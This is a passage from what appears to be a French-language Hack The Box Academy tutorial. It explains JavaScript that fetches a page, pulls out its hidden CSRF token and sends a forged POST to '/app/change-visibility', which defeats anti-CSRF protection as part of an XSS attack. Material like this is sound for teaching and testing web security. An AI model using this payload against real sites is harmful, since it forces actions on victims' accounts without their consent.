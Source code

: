 Code : javascript

```
req.open('get','/app/change-visibility',true);

```

Dans l'extrait de script ci-dessus, nous passons trois arguments. *get* qui est la méthode de requête, le chemin ciblé */app/change-visibility* puis *true* qui continuera l'exécution.

Code : javascript

```
req.send();

```

L'extrait de script ci-dessus enverra tout ce que nous avons construit dans la requête HTTP.

Code : javascript

```
function handleResponse(d) {
    var token = this.responseText.match(/name="csrf" type="hidden" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/app/change-visibility', true);
    changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    changeReq.send('csrf='+token+'&action=change');
};

```

L'extrait de script ci-dessus définit une fonction appelée *handleResponse* .

Code : javascript

```
var token = this.responseText.match(/name="csrf" type="hidden" value="(\w+)"/)[1];

```

L'extrait de script ci-dessus définit une variable appelée *token* , qui obtient la valeur de *responseText* à partir de la page que nous avons spécifiée précédemment dans notre requête. `/name="csrf" type="hidden" value="(\w+)"/)[1];`recherche un champ de saisie caché appelé *csrf* et \w+ correspond à un ou plusieurs caractères alphanumériques. Dans certains cas, cela peut être différent, alors regardons comment vous pouvez identifier le nom d'une valeur cachée ou vérifier s'il s'agit bien de "CSRF".

Ouvrez les outils de développement Web (Maj+Ctrl+I dans le cas de Firefox) et accédez à l' onglet *Inspecteur* . Nous pouvons utiliser la fonctionnalité *de recherche* pour rechercher une chaîne spécifique. Dans notre cas, nous recherchons *csrf* et nous obtenons un résultat.

![image](https://academy.hackthebox.com/storage/modules/153/57.png)

Remarque : Si aucun résultat n'est renvoyé et que vous êtes certain que les jetons CSRF sont en place, parcourez divers éléments du code source ou copiez votre jeton CSRF actuel et recherchez-le via la fonctionnalité de recherche. De cette façon, vous pouvez découvrir le nom du champ de saisie que vous recherchez. Si vous n'obtenez toujours aucun résultat, cela ne signifie pas que l'application n'utilise aucune protection anti-CSRF. Il pourrait y avoir un autre formulaire protégé par une protection anti-CSRF.
